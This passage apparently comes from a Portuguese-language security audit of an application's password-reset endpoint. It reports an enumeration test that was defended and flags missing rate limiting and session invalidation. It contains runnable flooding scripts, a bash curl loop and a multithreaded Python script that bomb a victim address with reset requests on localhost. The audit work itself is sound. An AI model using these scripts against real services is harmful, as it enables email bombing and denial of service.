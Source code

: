 ### 3. User Enumeration
**Status:** ✅ DEFESA EFETIVA
```bash
# Tentativa de descobrir usuários válidos
curl -X POST http://localhost:3000/auth/esqueceu-senha \
  -H "Content-Type: application/json" \
  -d '{"identifier":"existing@domain.com"}'
# Retorna mesma mensagem para usuários existentes e inexistentes
```

### 4. Email Bombing Attack
**Status:** ❌ FALHA NA DEFESA
```bash
# Envio massivo de emails para uma vítima
for i in {1..100}; do
  curl -X POST http://localhost:3000/auth/esqueceu-senha \
    -H "Content-Type: application/json" \
    -d '{"identifier":"victim@domain.com"}' &
done
```

---

## 🚨 VULNERABILIDADES CRÍTICAS

### 1. AUSÊNCIA DE RATE LIMITING
**Severidade:** 🔴 CRÍTICA  
**CVSS:** 8.2  
**Impacto:** DoS, Email bombing, Brute force

**Exploração:**
```python
import requests
import threading

def attack_reset(email):
    for _ in range(1000):
        requests.post('http://localhost:3000/auth/esqueceu-senha', 
                     json={'identifier': email})

# Múltiplas threads atacando simultaneamente
for i in range(10):
    threading.Thread(target=attack_reset, 
                    args=[f'victim{i}@domain.com']).start()
```

### 2. FALTA DE INVALIDAÇÃO DE SESSÕES
**Severidade:** 🔴 CRÍTICA  
**CVSS:** 7.8  
**Impacto:** Hijacking de sessão após reset

